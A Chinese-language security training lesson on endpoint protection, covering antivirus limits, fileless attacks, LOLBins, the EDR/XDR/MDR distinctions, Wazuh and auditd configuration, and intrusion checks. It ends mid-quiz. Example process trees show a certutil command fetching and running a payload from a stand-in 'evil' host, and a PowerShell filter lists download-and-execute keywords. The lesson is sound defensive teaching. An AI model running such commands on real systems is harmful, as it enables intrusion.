

# 端點防護 AV／EDR／XDR

> [!abstract] 這篇你會學到
> - 理解**為什麼傳統防毒不夠了**（特徵比對的三個致命弱點）
> - 分辨 **AV / EPP / EDR / XDR / MDR** 的能力邊界
> - 認識**無檔案攻擊**與 **LOLBins**，知道為什麼它們躲得過防毒
> - 明白 EDR 能提供哪些**鑑識資料**，以及它的價值在哪
> - 知道端點防護**必須搭配什麼**才有效（修補、權限、應用程式控制）
> - 學會評估與導入端點防護方案

## 前置知識

- [[01-資安全景圖與縱深防禦]] — 端點在整體架構中的位置
- [[18-計概-資訊安全初步]] — 惡意程式的種類

---

## 觀念說明

### 為什麼端點是關鍵戰場

> [!note] 現代攻擊的起點幾乎都在端點
> 回顧殺傷鏈（見 [[01-資安全景圖與縱深防禦]]）：
> ```
> 釣魚信 → 使用者點開 → 惡意程式在「他的電腦」上執行 → 橫向移動
>                        ^^^^^^^^^^^^^^^^^^^^^^^^^^
>                        這一步發生在端點
> ```
>
> 而且端點有幾個特性讓它成為最脆弱的一環：
> - **數量最多**（幾百台電腦 vs 幾台防火牆）
> - **由使用者操作**（人會犯錯）
> - **在網路邊界之內**（防火牆管不到）
> - **常常在外面**（筆電帶回家、出差）

### 核心比喻：從「認臉」到「看行為」

| 比喻 | 技術 |
| --- | --- |
| **保全拿著通緝犯照片比對** | **傳統防毒（特徵比對）** |
| **保全看到有人在撬鎖就攔下來** | **行為偵測（EDR）** |
| **整棟大樓的監視器連線，能追蹤某人走過哪些地方** | **XDR** |
| **委外的保全公司 24 小時監看** | **MDR** |

---

## 傳統防毒的三個致命弱點

### 一、只認得「已知」的惡意程式

**特徵比對（Signature-based）的原理**：
把檔案的雜湊值或特徵碼與病毒碼資料庫比對。

> [!danger] 攻擊者只要改一個位元組
> 惡意程式**每次產生一個新變種**（改變數名稱、加無用程式碼、
> 換加密金鑰），雜湊值就完全不同 → **防毒認不出來**。
>
> 現代惡意程式常用「**多型（polymorphic）**」與
> 「**變形（metamorphic）**」技術，**每次下載都是不同的檔案**。
>
> 這就是為什麼「零時差攻擊」對傳統防毒是完全無效的。

### 二、無檔案攻擊（Fileless Attack）

> [!warning] 沒有檔案，防毒就沒東西可掃
> 現代攻擊越來越少落地成檔案：
>
> | 手法 | 說明 |
> | --- | --- |
> | **記憶體注入** | 惡意程式碼**只存在於記憶體**，磁碟上沒有檔案 |
> | **PowerShell 直接執行** | `powershell -enc <base64>` 從網路下載並在記憶體執行 |
> | **WMI 持久化** | 把惡意程式碼藏在 Windows 管理機制的事件訂閱裡 |
> | **登錄檔存放** | 程式碼存在 Registry，由排程觸發 |
> | 巨集 | Office 文件的巨集直接執行程式碼 |
>
> **防毒掃描檔案，但這些攻擊沒有檔案可掃。**

### 三、LOLBins：利用系統內建的合法工具

> [!danger] Living Off the Land Binaries
> 攻擊者**不帶自己的工具，直接用系統內建的合法程式**：
>
> | 工具 | 正常用途 | 被濫用來 |
> | --- | --- | --- |
> | **PowerShell** | 系統管理 | 下載並執行惡意程式碼 |
> | **certutil** | 憑證管理 | **下載檔案**、Base64 編解碼 |
> | **bitsadmin** | 背景傳輸 | 下載檔案 |
> | **rundll32** | 執行 DLL | 執行惡意 DLL |
> | **mshta** | 執行 HTA | 執行遠端腳本 |
> | **regsvr32** | 註冊元件 | **執行遠端腳本（Squiblydoo）** |
> | **wmic** | 系統管理 | 遠端執行、持久化 |
> | Linux 的 `curl`、`wget`、`bash`、`python` | 日常工具 | 下載並執行 payload |
>
> **這些都是微軟／系統原廠簽章的合法程式**，
> 防毒不可能把它們列為惡意。
>
> **只有「看行為」才抓得到**：
> 「為什麼 Word 會啟動 PowerShell？」
> 「為什麼 certutil 在下載執行檔？」

> [!tip] 這就是 EDR 存在的理由
> **AV 問的是**：「這個檔案是壞的嗎？」
> **EDR 問的是**：「**這一連串行為合理嗎？**」

---

## AV / EPP / EDR / XDR / MDR 的分野

| 名稱 | 全名 | 做什麼 | 關鍵能力 |
| --- | --- | --- | --- |
| **AV** | Antivirus | 掃描並清除**已知**惡意檔案 | 特徵比對 |
| **EPP** | Endpoint Protection Platform | AV + 防火牆 + 裝置控制 + 加密 | **預防為主** |
| **EDR** | Endpoint Detection and Response | **記錄所有行為、偵測異常、支援調查與回應** | **偵測 + 回應 + 鑑識** |
| **XDR** | Extended Detection and Response | EDR **擴大到網路、郵件、雲端、身分** | **跨來源關聯** |
| **MDR** | Managed Detection and Response | **由服務商 24 小時代為監看與回應** | **人力外包** |



### EDR 具體做什麼

> [!example] EDR 記錄的行為資料
> EDR 的 agent 持續記錄端點上的**所有重要事件**：
>
> | 記錄什麼 | 例子 |
> | --- | --- |
> | **程序建立** | 誰啟動了誰（**程序樹**） |
> | **檔案操作** | 建立、修改、刪除、重新命名 |
> | **登錄檔變更**（Windows） | 持久化的常見手法 |
> | **網路連線** | 連到哪個 IP／網域、哪個程序發起的 |
> | **登入事件** | 誰在什麼時候登入 |
> | 命令列參數 | **完整的執行指令** |
> | 模組載入 | 載入了哪些 DLL |
>
> **這些資料讓 EDR 能回答**：
> 「這個惡意程式是**怎麼進來的**？」
> 「它**做了什麼**？」
> 「它**還去了哪些機器**？」

> [!tip] EDR 最大的價值：程序樹
> ```
> outlook.exe
>   └─ WINWORD.EXE  (開啟附件 報價單.docm)
>       └─ powershell.exe -enc SQBFAFgA...        ← 🚨 Word 為什麼啟動 PowerShell？
>           └─ certutil.exe -urlcache -f http://evil/x.exe
>               └─ x.exe                          ← 🚨 下載並執行
>                   └─ 連線到 185.x.x.x:443       ← 🚨 C&C 回連
> ```
>
> **這一整串行為裡，沒有任何一個程式是「惡意軟體」** ——
> outlook、Word、PowerShell、certutil 全都是合法的系統程式。
>
> **但這個「行為序列」極度可疑**，這就是 EDR 偵測的方式。

### EDR 的回應能力

| 能力 | 說明 |
| --- | --- |
| **隔離主機（Isolate）** | **一鍵把該機器從網路上切斷**（但保留 EDR 的管理通道） |
| 終止程序 | 遠端殺掉可疑程序 |
| 刪除／隔離檔案 | 移除惡意檔案 |
| 回滾 | 部分產品可還原被勒索軟體加密的檔案 |
| 遠端 Shell | 直接連進去調查 |
| 收集鑑識資料 | 打包記憶體、日誌、檔案供分析 |

> [!warning] 「隔離主機」是最重要也最需要謹慎的功能
> 發現一台機器被入侵時，**第一件事是切斷它的網路**，
> 防止橫向移動與資料外傳。
>
> **EDR 的隔離功能可以在幾秒內做到**，
> 而且**保留 EDR 自己的通道**讓你能繼續調查。
>
> **但要小心**：
> - 誤判導致隔離重要伺服器 → **服務中斷**
> - 要有明確的**授權與流程**（誰有權按下這個按鈕）
> - 隔離後要有**後續處理流程**（不能隔離了就放著）

---

## 端點防護必須搭配的東西

> [!danger] 只裝 EDR 是不夠的
> EDR 是**偵測與回應**工具，
> 但**減少攻擊面**的工作必須另外做。

| 搭配措施 | 為什麼重要 |
| --- | --- |
| **修補管理** | **大部分入侵利用的是已有修補的舊漏洞** |
| **移除本機管理員權限** | 使用者不是管理員，惡意程式就無法安裝服務、關閉防護 |
| **應用程式控制／白名單** | 只允許核可的程式執行（AppLocker、WDAC） |
| **停用 Office 巨集** | 巨集是最經典的入侵管道（可用 GPO 全面停用來自網路的巨集） |
| **停用不必要的腳本引擎** | 限制 PowerShell（**Constrained Language Mode**）、停用 WSH |
| **PowerShell 日誌** | 開啟 **Script Block Logging** 與 Module Logging |
| **組態基準** | TWGCB / CIS Benchmark |
| **磁碟加密** | BitLocker / LUKS，防止實體竊取 |
| **USB 管制** | 見 [[12-計概-輸入輸出與週邊設備]] |

> [!tip] 投資報酬率最高的三項端點措施
> **一、移除一般使用者的本機管理員權限**
> 這一項就能大幅降低惡意程式的影響範圍 ——
> 沒有管理員權限，它**無法安裝服務、無法關閉防毒、無法改系統設定**。
>
> **二、停用來自網路的 Office 巨集**
> 微軟已預設封鎖來自網際網路的巨集，但**確認你的 GPO 有強制執行**。
>
> **三、確實做好修補**
> 見 [[03-弱點與修補管理流程]]。
>
> **這三項幾乎不花錢，效果遠大於任何單一產品。**

---

## Linux 端點也需要防護

> [!warning] 「Linux 不需要防毒」是過時的觀念
> **確實 Linux 的病毒很少**，但：
> - **伺服器是高價值目標**（資料都在那裡）
> - **挖礦程式**大量針對 Linux 伺服器
> - **Webshell** 是網站被入侵的標準產物
> - 容器逃逸、供應鏈攻擊
> - Linux 主機可能**存放並轉發 Windows 惡意檔案**（檔案伺服器）

**Linux 端點防護的實際做法**：

| 工具 | 用途 |
| --- | --- |
| **Wazuh** | HIDS：檔案完整性、日誌分析、rootkit 偵測、弱點掃描、CIS 檢查 |
| **auditd** | 核心層級稽核（記錄系統呼叫） |
| **AIDE** | 檔案完整性監控 |
| **ClamAV** | 掃描（主要用於檔案伺服器掃 Windows 惡意檔案） |
| **rkhunter / chkrootkit** | Rootkit 偵測 |
| **Falco** | **雲原生執行時期偵測**（容器環境的 EDR） |
| **SELinux / AppArmor** | 強制存取控制，限制程序能做什麼 |
| 商用 EDR 的 Linux agent | CrowdStrike、SentinelOne、Microsoft Defender for Endpoint 等 |

> [!tip] Falco：容器環境的行為偵測
> 傳統 EDR 在容器環境效果有限（容器是短暫的、共用核心）。
>
> **Falco** 用 eBPF 監控核心層級的系統呼叫，能偵測：
> - 容器內開啟 shell
> - 讀取敏感檔案（`/etc/shadow`）
> - 對外的異常連線
> - 寫入系統目錄
> - 容器以特權模式啟動
>
> 見 `31-容器化` 的安全章節。

---

## 完整實戰範例

### Linux：用 Wazuh 建立端點偵測

```bash
# ===== Agent 端安裝 =====
$ curl -sO https://packages.wazuh.com/4.x/wazuh-install.sh
$ sudo bash wazuh-install.sh --wazuh-agent

# 設定連到 manager
$ sudo nano /var/ossec/etc/ossec.conf
```

```xml
<ossec_config>
  <client>
    <server><address>192.168.1.100</address></server>
  </client>

  <!-- 檔案完整性監控：偵測後門植入 -->
  <syscheck>
    <frequency>21600</frequency>
    <directories check_all="yes" realtime="yes">/etc,/bin,/sbin,/usr/bin,/usr/sbin</directories>
    <directories check_all="yes" realtime="yes">/var/www</directories>
    <directories check_all="yes">/root/.ssh,/home</directories>
    <ignore>/etc/mtab</ignore>
    <ignore type="sregex">^/var/www/.*\.log$</ignore>
  </syscheck>

  <!-- Rootkit 偵測 -->
  <rootcheck>
    <disabled>no</disabled>
    <check_unixaudit>yes</check_unixaudit>
    <check_files>yes</check_files>
    <check_trojans>yes</check_trojans>
    <check_ports>yes</check_ports>
    <check_if>yes</check_if>
  </rootcheck>

  <!-- 法遵檢查（CIS Benchmark）-->
  <sca>
    <enabled>yes</enabled>
    <scan_on_start>yes</scan_on_start>
    <interval>12h</interval>
  </sca>

  <!-- 收集日誌 -->
  <localfile>
    <log_format>syslog</log_format>
    <location>/var/log/auth.log</location>
  </localfile>
  <localfile>
    <log_format>audit</log_format>
    <location>/var/log/audit/audit.log</location>
  </localfile>
</ossec_config>
```

```bash
$ sudo systemctl restart wazuh-agent
$ sudo tail -f /var/ossec/logs/ossec.log
```

### 用 auditd 記錄關鍵行為

```bash
$ sudo apt install auditd audispd-plugins
$ sudo nano /etc/audit/rules.d/hardening.rules
```

```
# 監控重要檔案的變更
-w /etc/passwd -p wa -k identity
-w /etc/shadow -p wa -k identity
-w /etc/group -p wa -k identity
-w /etc/sudoers -p wa -k privileged
-w /etc/sudoers.d/ -p wa -k privileged
-w /etc/ssh/sshd_config -p wa -k sshd_config

# 監控排程（持久化的常見手法）
-w /etc/crontab -p wa -k cron
-w /etc/cron.d/ -p wa -k cron
-w /var/spool/cron/ -p wa -k cron

# 監控系統呼叫：執行檔的執行（可能量很大）
-a always,exit -F arch=b64 -S execve -F euid=0 -k root_cmd

# 監控可疑目錄的執行（惡意程式常放這裡）
-a always,exit -F arch=b64 -S execve -F dir=/tmp -k tmp_exec
-a always,exit -F arch=b64 -S execve -F dir=/dev/shm -k shm_exec

# 監控模組載入（rootkit）
-w /sbin/insmod -p x -k modules
-w /sbin/modprobe -p x -k modules
-a always,exit -F arch=b64 -S init_module,delete_module -k modules
```

```bash
$ sudo augenrules --load
$ sudo systemctl restart auditd

# 查詢
$ sudo ausearch -k tmp_exec -i | tail -20
$ sudo ausearch -k privileged --start today -i
$ sudo aureport --summary
```

> [!tip] `/tmp` 與 `/dev/shm` 的執行是強烈的入侵訊號
> **正常的軟體不會從這些目錄執行。**
>
> 攻擊者常把 payload 下載到這些**任何人可寫**的目錄再執行。
>
> 除了監控，更好的做法是**直接讓它們不能執行**：
> ```bash
> # /etc/fstab
> tmpfs  /tmp      tmpfs  defaults,noexec,nosuid,nodev  0 0
> tmpfs  /dev/shm  tmpfs  defaults,noexec,nosuid,nodev  0 0
> ```
> 這是 **TWGCB 與 CIS 基準的要求項目**。
> 見 [[03-TWGCB-Linux項目分類詳解]]。

### 檢查主機是否有入侵跡象

```bash
#!/usr/bin/env bash
# 端點快速健檢
echo "=== 1. 從可疑路徑執行的程序 ==="
sudo ls -l /proc/*/exe 2>/dev/null | grep -E '/tmp|/dev/shm|/var/tmp|deleted' || echo "  ✓ 無"

echo -e "\n=== 2. 最近啟動的程序（最後 10 個）==="
ps -eo pid,lstart,user,cmd --sort=start_time | tail -10

echo -e "\n=== 3. 對外的網路連線（非常見埠）==="
sudo ss -tanp state established | grep -vE ':(22|80|443|53) ' | head -15

echo -e "\n=== 4. 監聽中的服務 ==="
sudo ss -tulpn | grep -E '0\.0\.0\.0|\*:'

echo -e "\n=== 5. 排程工作 ==="
for u in $(cut -f1 -d: /etc/passwd); do
  c=$(sudo crontab -u "$u" -l 2>/dev/null)
  [ -n "$c" ] && echo "--- $u ---" && echo "$c"
done
ls -la /etc/cron.d/ /etc/cron.*/ 2>/dev/null | head -20

echo -e "\n=== 6. 最近修改的系統執行檔（7 天內）==="
sudo find /bin /sbin /usr/bin /usr/sbin -type f -mtime -7 2>/dev/null | head -10

echo -e "\n=== 7. SUID 檔案（與基準比對）==="
sudo find / -perm -4000 -type f 2>/dev/null | sort > /tmp/suid.now
[ -f /root/suid.baseline ] && diff /root/suid.baseline /tmp/suid.now || \
  echo "  （尚無基準，執行 sudo cp /tmp/suid.now /root/suid.baseline 建立）"

echo -e "\n=== 8. 授權金鑰檔（後門常見手法）==="
sudo find /home /root -name authorized_keys -exec ls -l {} \; 2>/dev/null

echo -e "\n=== 9. 是否被 rootkit 隱藏程序 ==="
echo "  /proc 中的程序數：$(ls -d /proc/[0-9]* 2>/dev/null | wc -l)"
echo "  ps 看到的程序數：  $(ps -e --no-headers | wc -l)"
echo "  （差距過大要警覺）"
```

> [!warning] 第 8 項：`authorized_keys` 是最常見的後門
> 攻擊者取得權限後，最常做的持久化就是
> **把自己的公鑰加進 `~/.ssh/authorized_keys`**。
>
> 這樣即使你改了密碼，他仍然能用金鑰登入。
>
> **應該監控這個檔案的變更**（用 AIDE 或 Wazuh 的 FIM）。

### Windows：PowerShell 日誌與稽核

> [!tip] 開啟 PowerShell 的完整日誌
> 這是 Windows 端點偵測最重要的設定之一。
>
> **GPO 路徑**：
> ```
> 電腦設定 → 系統管理範本 → Windows 元件 → Windows PowerShell
>   ✅ 開啟模組記錄（Module Logging）
>   ✅ 開啟 PowerShell 指令碼區塊記錄（Script Block Logging）  ← 最重要
>   ✅ 開啟 PowerShell 轉譯（Transcription）
> ```
>
> **Script Block Logging 會記錄「實際執行的程式碼」** ——
> 即使攻擊者用 Base64 編碼混淆，**日誌裡也會是解碼後的內容**。
>
> 這是抓無檔案攻擊最有效的手段之一。

```powershell
# 檢查是否有可疑的 PowerShell 執行
Get-WinEvent -LogName 'Microsoft-Windows-PowerShell/Operational' -MaxEvents 100 |
    Where-Object { $_.Id -eq 4104 } |
    Where-Object { $_.Message -match 'DownloadString|IEX|Invoke-Expression|FromBase64String|-enc' } |
    Select-Object TimeCreated, Message -First 10
```

---

## 選型與導入

### 評估重點

| 項目 | 要問什麼 |
| --- | --- |
| **偵測能力** | 有沒有第三方測評（MITRE ATT&CK Evaluations、AV-TEST、SE Labs）？ |
| **平台支援** | Windows / macOS / **Linux** / 行動裝置 / 容器都支援嗎？ |
| **效能影響** | agent 佔多少 CPU/記憶體？對舊機器影響大嗎？ |
| **管理主控台** | 雲端還是地端？**資料存在哪裡**（法遵考量）？ |
| **回應能力** | 能不能一鍵隔離？能不能遠端調查？ |
| **整合** | 能不能送到 SIEM？有沒有 API？ |
| **誤判處理** | 白名單怎麼設？調校容易嗎？ |
| **人力需求** | **有沒有人看告警**？要不要考慮 MDR？ |

> [!danger] 最重要的問題：有沒有人看告警
> **EDR 會產生大量的告警與偵測事件**，
> 需要有人判讀、調查、決定要不要處理。
>
> **如果機關只有一兩個資訊人員**，
> 買了 EDR 也可能沒有人力處理 ——
> 這時 **MDR（委外代管偵測與回應）** 可能是更務實的選擇。
>
> **MDR 的價值**：
> - **24 小時**有人看（攻擊常在半夜與連假發生）
> - 專業的分析人員
> - 有明確的 SLA
>
> 代價是月費，以及**資料要交給服務商**（法遵要確認）。

> [!warning] 法遵考量：資料存在哪裡
> 很多 EDR 是**雲端管理**的，這代表：
> - 端點的行為資料（含檔案路徑、命令列、可能含敏感資訊）**會上傳到廠商的雲端**
> - 那個雲端**可能在境外**
>
> **機關採購前必須確認**：
> 1. 資料存放的**地理位置**
> 2. 是否符合相關的資料主權要求
> 3. 有沒有**地端部署**的選項
> 4. 廠商的資安認證與合約條款
>
> 見 [[07-台灣資安法規與個資法]] 與 [[11-委外與供應鏈資安]]。

### 導入步驟

```
1. 盤點端點（有幾台？什麼作業系統？誰在用？）
   → 沒有清冊就先做清冊
2. 選定 1～2 個方案做 POC
   → 在真實環境測試，不要只看簡報
3. 先在 IT 部門的機器上試行（小範圍）
   → 觀察誤判、效能影響
4. 分批推廣（依部門或風險等級）
5. 建立告警處理流程（誰看、怎麼處理、怎麼升級）
6. 定期檢視覆蓋率（有沒有機器沒裝或 agent 掛了）
```

> [!tip] 「覆蓋率」是常被忽略的指標
> 買了 EDR，但：
> - 有 20 台機器沒裝
> - 有 15 台的 agent 已經離線三個月
> - 新採購的機器沒有納入部署流程
>
> **這些機器就是攻擊者的入口。**
>
> **應該做的**：
> - 定期比對「資產清冊」與「EDR 主控台的機器清單」
> - **agent 離線超過 N 天要告警**
> - 把「安裝 EDR」納入 [[01-新機建置標準流程]]

---

## 常見錯誤與排錯

| 錯誤觀念 | 為什麼錯 | 正確做法 |
| --- | --- | --- |
| **「有防毒就夠了」** | 擋不住零時差、無檔案攻擊、LOLBins | 加上 EDR + 修補 + 權限管控 |
| 「Linux 不需要防護」 | 伺服器是高價值目標；挖礦與 Webshell 大量針對 Linux | 部署 HIDS（Wazuh）、FIM、auditd |
| **買了 EDR 但沒人看告警** | 偵測 = 工具 + **人** | 先確認人力；或考慮 **MDR** |
| 使用者都是本機管理員 | 惡意程式可以做任何事 | **移除管理員權限**（ROI 最高的一項） |
| **有機器沒裝 agent** | 那些就是入口 | 定期檢視**覆蓋率**；納入建置流程 |
| agent 離線很久沒發現 | 沒有監控 agent 健康度 | **離線超過 N 天要告警** |
| 只買 EDR 不做修補 | 大部分入侵利用已知漏洞 | **修補管理是基礎** |
| 誤判就把整個功能關掉 | 失去保護 | 精確地加白名單，記錄原因 |
| EDR 資料上傳境外雲端 | 可能違反法遵 | **採購前確認資料存放位置** |
| 沒有隔離主機的授權流程 | 誤隔離重要伺服器造成中斷 | 明確規範誰有權、什麼情況下可以按 |

> [!warning] EDR agent 本身也可能被攻擊
> 高階攻擊者會嘗試：
> - **停用或解除安裝 agent**
> - 竄改 agent 的設定
> - 利用 agent 本身的漏洞（它有極高權限）
>
> **防護**：
> - 啟用 agent 的**防竄改保護**（Tamper Protection）
> - **agent 離線或被停用要立刻告警**
> - agent 保持更新
> - 主控台的管理帳號要有 **MFA**

---

## 安全性注意事項

> [!danger] 端點防護的隱私議題
> EDR 記錄端點上的**所有行為**，包括：
> - 執行了哪些程式
> - 開啟了哪些檔案（**檔名可能透露內容**）
> - 連到哪些網站
> - 完整的命令列參數
>
> **這是相當侵入性的監控。**
>
> **機關導入時應該**：
> 1. **明確告知員工**有這個機制，以及監控的範圍
> 2. 在資安政策中**書面規範**
> 3. **限制誰能查詢**這些資料，並記錄查詢行為
> 4. **設定資料保留期限**
> 5. 與人資、法務討論（可能涉及勞動與個資議題）
>
> **不要偷偷部署** —— 被發現會造成信任危機，也可能有法律問題。

> [!tip] 端點防護與資安事件應變的關係
> EDR 在事件應變的每個階段都有用：
>
> | 階段 | EDR 的作用 |
> | --- | --- |
> | **偵測** | 發現異常行為並告警 |
> | **抑制** | **一鍵隔離受影響的主機** |
> | **調查** | **程序樹、時間軸、檔案雜湊** |
> | **根除** | 遠端移除惡意檔案與持久化機制 |
> | **復原** | 確認乾淨後解除隔離 |
> | **檢討** | 提供完整的攻擊過程紀錄 |
>
> **「這台機器是怎麼被入侵的」這個問題，
> 沒有 EDR 通常答不出來。**
>
> 見 [[04-資安事件應變流程]]。

> [!warning] 發現入侵時不要急著重灌
> 常見的錯誤反應：發現中毒 → **立刻重灌**。
>
> **問題**：
> - **證據全部消失**，永遠不知道怎麼被入侵的
> - 不知道攻擊者**還去了哪些機器**
> - 不知道**有沒有資料外洩**（法遵通報需要）
> - 同樣的漏洞還在，**很快會再被入侵一次**
>
> **正確順序**：
> 1. **隔離**（切斷網路，但**不要關機**）
> 2. **保全證據**（記憶體傾印、磁碟映像、EDR 資料）
> 3. **調查**（怎麼進來的？做了什麼？還有哪裡？）
> 4. **根除**（修補根因）
> 5. **才重建**
>
> 見 [[04-資安事件應變流程]]。

---

## 速查表

### 五個名詞

| 縮寫 | 做什麼 |
| --- | --- |
| **AV** | 掃描已知惡意檔案 |
| **EPP** | AV + 防火牆 + 裝置控制 |
| **EDR** | **行為偵測 + 鑑識 + 回應** |
| **XDR** | EDR + 網路/郵件/雲端/身分 |
| **MDR** | **委外 24 小時代管** |

### 傳統防毒的三個弱點

1. **只認得已知**（改一個位元組就繞過）
2. **無檔案攻擊**（記憶體、PowerShell、WMI、Registry）
3. **LOLBins**（用系統內建的合法工具）

### 常見的 LOLBins

| Windows | Linux |
| --- | --- |
| powershell、certutil、bitsadmin | curl、wget |
| rundll32、mshta、regsvr32 | bash、python |
| wmic、msbuild | base64、nc |

### EDR 記錄什麼

程序建立（**程序樹**）、檔案操作、登錄檔變更、
網路連線、登入事件、**完整命令列**、模組載入

### 必須搭配的措施

| 措施 | ROI |
| --- | --- |
| **移除本機管理員權限** | ⭐⭐⭐ |
| **停用來自網路的 Office 巨集** | ⭐⭐⭐ |
| **修補管理** | ⭐⭐⭐ |
| 應用程式白名單 | ⭐⭐ |
| PowerShell 日誌與限制 | ⭐⭐ |
| 組態基準（TWGCB/CIS） | ⭐⭐ |
| 磁碟加密、USB 管制 | ⭐ |

### Linux 端點工具

| 工具 | 用途 |
| --- | --- |
| **Wazuh** | HIDS 全套（FIM、日誌、rootkit、CIS） |
| **auditd** | 核心層級稽核 |
| AIDE | 檔案完整性 |
| ClamAV | 檔案掃描 |
| **Falco** | 容器執行時期偵測 |
| SELinux/AppArmor | 強制存取控制 |

### 入侵跡象快速檢查

```bash
sudo ls -l /proc/*/exe | grep -E '/tmp|/dev/shm|deleted'   # 可疑路徑執行
sudo ss -tanp state established                             # 異常連線
sudo find /home /root -name authorized_keys -exec ls -l {} \;  # 後門金鑰
sudo find /bin /sbin /usr/bin -mtime -7                     # 最近改過的執行檔
ls -d /proc/[0-9]* | wc -l ; ps -e --no-headers | wc -l     # rootkit 隱藏
```

### 發現入侵的正確順序

```
隔離（不關機）→ 保全證據 → 調查 → 根除 → 才重建
```

---

## 練習題

> [!question]- 練習 1：檢查你的端點覆蓋率
> 1. 從資產清冊中列出所有端點（電腦 + 伺服器）
> 2. 從防毒／EDR 主控台匯出已安裝的清單
> 3. **比對兩份清單**
>
> 回答：
> - 有幾台沒有安裝？
> - 有幾台的 agent 超過 30 天沒有回報？
> - 這些機器分別是誰在用？為什麼漏掉了？

> [!question]- 練習 2：在 Linux 上建立基本偵測
> ```bash
> # 1. 安裝並設定 auditd
> sudo apt install auditd
> sudo nano /etc/audit/rules.d/hardening.rules   # 貼上本篇的規則
> sudo augenrules --load
>
> # 2. 觸發一個規則測試
> sudo touch /etc/test-audit
> sudo cp /etc/passwd /tmp/ && sudo vi /etc/passwd   # 觸發 identity
> sudo ausearch -k identity -i | tail -20
>
> # 3. 測試 /tmp 執行偵測
> echo -e '#!/bin/bash\necho test' > /tmp/t.sh && chmod +x /tmp/t.sh && /tmp/t.sh
> sudo ausearch -k tmp_exec -i | tail -10
> ```
> 確認每個規則都有正確記錄。

> [!question]- 練習 3：分析一個程序樹
> 假設 EDR 回報了以下程序樹：
> ```
> explorer.exe
>   └─ chrome.exe
>       └─ 下載: 中獎通知.pdf.exe
>           └─ 中獎通知.pdf.exe
>               ├─ 連線 45.x.x.x:8080
>               ├─ 寫入 C:\Users\xxx\AppData\Roaming\svchost.exe
>               └─ 建立排程工作 "SystemUpdate"
> ```
> 回答：
> 1. 哪幾個步驟是可疑的？為什麼？
> 2. 攻擊者做了什麼**持久化**？
> 3. 對照殺傷鏈，這走到第幾步了？
> 4. 你會如何回應？（依正確的順序）

---

## 小測驗

Q1. 為什麼「端點是關鍵戰場」？端點有哪四個特性讓它成為最脆弱的一環？

Q2. 用「保全」的比喻說明 AV、EDR、XDR、MDR 的差別。

Q3. 傳統防毒的三個致命弱點是什麼？

Q4. 什麼是「無檔案攻擊」？請舉三種手法。

Q5. 什麼是 LOLBins？為什麼防毒抓不到？請舉出三個 Windows 上的例子。

Q6. EDR 最大的價值是什麼？請用一個程序樹的例子說明「沒有任何一個程式是惡意軟體，但行為序列極度可疑」。

Q7. 端點防護必須搭配哪些措施？其中投資報酬率最高的三項是什麼？

Q8. 「Linux 不需要防毒」這個觀念錯在哪裡？Linux 端點該用哪些工具？

Q9. 為什麼 `/tmp` 與 `/dev/shm` 的執行是強烈的入侵訊號？除了監控，更好的做法是什麼？

Q10. 發現主機被入侵時，為什麼「不要急著重灌」？正確的順序是什麼？

> [!question]- 測驗答案
> **Q1.** 因為**現代攻擊的起點幾乎都在端點**
> （釣魚信 → 使用者點開 → 惡意程式在他的電腦上執行 → 橫向移動）。
> **四個特性**：①**數量最多**（幾百台電腦 vs 幾台防火牆）；
> ②**由使用者操作**（人會犯錯）；
> ③**在網路邊界之內**（防火牆管不到）；
> ④**常常在外面**（筆電帶回家、出差）。
>
> **Q2.** **AV = 保全拿著通緝犯照片比對**（特徵比對已知惡意檔案）；
> **EDR = 保全看到有人在撬鎖就攔下來**（看行為而非看臉）；
> **XDR = 整棟大樓的監視器連線，能追蹤某人走過哪些地方**（跨來源關聯）；
> **MDR = 委外的保全公司 24 小時監看**（人力外包）。
>
> **Q3.** ①**只認得「已知」的惡意程式** ——
> 攻擊者改一個位元組雜湊值就完全不同，現代惡意程式用多型/變形技術，
> 每次下載都是不同檔案；
> ②**無檔案攻擊** —— 沒有檔案就沒東西可掃；
> ③**LOLBins** —— 用系統內建的合法程式，防毒不可能把它們列為惡意。
>
> **Q4.** 「無檔案攻擊」指惡意程式碼**不落地成磁碟上的檔案**。
> 三種手法（任三）：
> ①**記憶體注入**（程式碼只存在記憶體中）；
> ②**PowerShell 直接執行**（`powershell -enc <base64>` 從網路下載並在記憶體執行）；
> ③**WMI 持久化**（藏在 Windows 管理機制的事件訂閱裡）；
> ④**登錄檔存放**（程式碼存在 Registry，由排程觸發）；
> ⑤Office 巨集。
>
> **Q5.** **LOLBins（Living Off the Land Binaries）**是指攻擊者
> **不帶自己的工具，直接使用系統內建的合法程式**來達成目的。
> **防毒抓不到**是因為**這些都是微軟／系統原廠簽章的合法程式**，
> 不可能被列為惡意。
> 三個 Windows 例子（任三）：**PowerShell**（下載執行）、
> **certutil**（下載檔案、Base64 編解碼）、**bitsadmin**（下載）、
> **rundll32**、**mshta**、**regsvr32**（執行遠端腳本）、**wmic**。
>
> **Q6.** EDR 最大的價值是**程序樹** —— 它記錄「誰啟動了誰」的完整鏈。
> 例子：
> ```
> outlook.exe → WINWORD.EXE（開啟附件）→ powershell.exe -enc ...
>   → certutil.exe -urlcache -f http://evil/x.exe → x.exe → 連線 C&C
> ```
> **這一串裡沒有任何一個程式是惡意軟體** ——
> outlook、Word、PowerShell、certutil 全是合法的系統程式。
> **但「Word 為什麼啟動 PowerShell」「certutil 為什麼在下載執行檔」
> 這個行為序列極度可疑**，這就是 EDR 的偵測方式。
>
> **Q7.** 必須搭配：**修補管理、移除本機管理員權限、應用程式控制/白名單、
> 停用 Office 巨集、限制 PowerShell、PowerShell 日誌、組態基準、
> 磁碟加密、USB 管制**。
> **ROI 最高的三項**：
> ①**移除一般使用者的本機管理員權限**（沒有管理員權限，
> 惡意程式無法安裝服務、關閉防毒、改系統設定）；
> ②**停用來自網路的 Office 巨集**；
> ③**確實做好修補**。
> 這三項幾乎不花錢，效果遠大於任何單一產品。
>
> **Q8.** 錯在雖然 Linux 的傳統病毒很少，但：
> **伺服器是高價值目標**（資料都在那裡）、
> **挖礦程式大量針對 Linux 伺服器**、
> **Webshell 是網站被入侵的標準產物**、
